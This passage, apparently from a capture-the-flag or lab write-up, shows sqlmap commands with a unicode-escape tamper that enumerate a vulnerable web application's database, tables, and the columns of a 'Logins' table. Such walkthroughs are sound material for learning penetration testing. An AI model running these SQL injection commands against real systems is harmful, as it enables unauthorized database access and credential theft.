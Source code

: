 <figure><img src="../../.gitbook/assets/multi_sqlmap_detect.png" alt=""><figcaption><p>Figure 12: SQLMap identidied the number of columns, the vulnerable parameter, and provided us with a (not unicode-escaped) payload.</p></figcaption></figure>

We can now do the same process as we did manually, that is, enumerating:

1. Current database's name (Figure 13.1)
2. Tables (Figure 13.2)
3. Columns (Figure 13.3)
4. Dump data (Figure 13.4)&#x20;

{% tabs %}
{% tab title="Current DB" %}
{% code overflow="wrap" %}
```bash
sqlmap -r getcolleagues.req --current-db --batch --tamper=charunicodeescape
```
{% endcode %}
{% endtab %}

{% tab title="Tables" %}
{% code overflow="wrap" %}
```bash
sqlmap -r getcolleagues.req --current-db --batch --tamper=charunicodeescape -D Hub_DB --tables
```
{% endcode %}
{% endtab %}

{% tab title="Columns" %}
{% code overflow="wrap" %}
```bash
sqlmap -r getcolleagues.req --current-db --batch --tamper=charunicodeescape -D Hub_DB -T Logins --columns
```
{% endcode %}
{% endtab %}
